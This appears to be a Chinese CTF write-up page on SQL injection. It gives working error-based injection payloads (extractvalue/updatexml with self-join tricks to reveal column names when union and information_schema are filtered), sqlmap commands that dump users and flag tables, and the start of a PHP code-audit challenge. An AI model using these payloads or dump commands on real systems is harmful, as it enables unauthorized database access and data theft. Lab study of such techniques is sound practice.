 知识点：join报错注入 

')闭合，过滤union，sqlmap，爆flag表名，尝试join报错注入字段

```
Submit=%E7%99%BB%E5%BD%95&passwd=123&uname=admin')||extractvalue(0x0a,concat(0x0a,(select * from (select * from flag as a join flag b)c
)))#

select * from (select * from flag join flag as b using(id,no)) as c  //爆列名，前面略

||extractvalue(0x0a,concat(0x0a,(select substr((select `af980cb2-d717-476c-b97f-6da717c70064` from flag ),1,21)  //出flag，手工方法
))) --+
||updatexml(1,concat((select `cb9704e8-dfcb-4feb-90c7-d84c92ef0062` from flag limit 0,1)),1)#  //上面替换这个也可

sqlmap -r 123.txt --batch --random-agent --level 5 --risk 3 -D security -T users -C username --dump   //库，表，列，sqlmap
```

手工注入单引号，存在注入点，post注入

去掉submit保存为txt

尝试sqlmap扫描，发现有报错注入和布尔注入

```
python sqlmap.py -r 保存的txt文件 --level 5//有报错注入，设置level5
python sqlmap.py -r 保存的txt文件 --dbs   //扫 数据库名
-D security -tables  //爆表
-D security -tables users -columns  //爆users的列名
-D security -T users -C id,username,password -dump  //脱裤
```

再脱flag，不显示，用手注发现union 和information_schema被屏蔽

利用无列名注入，mysql列名重复会报错

```
uname=')and(select extractvalue(1,concat(0x7e,(select * from(select * from flag a join flag b)d),0x7e),1))#   //得到第一个字段 id
uname=')and(select extractvalue(1,concat(0x7e,(select *  from(select * from flag a join flag b using(id))d),0x7e),1))#  //得到第二个字段 no
uname=')and(select extractvalue(1,concat(0x7e,(select *  from(select * from flag a join flag b using(id，no))d),0x7e),1))#   //payload出column值
-D security -T users -C column值 -dump 
```



## 代码审计

### WarmUp

```php
 <?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
```

[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604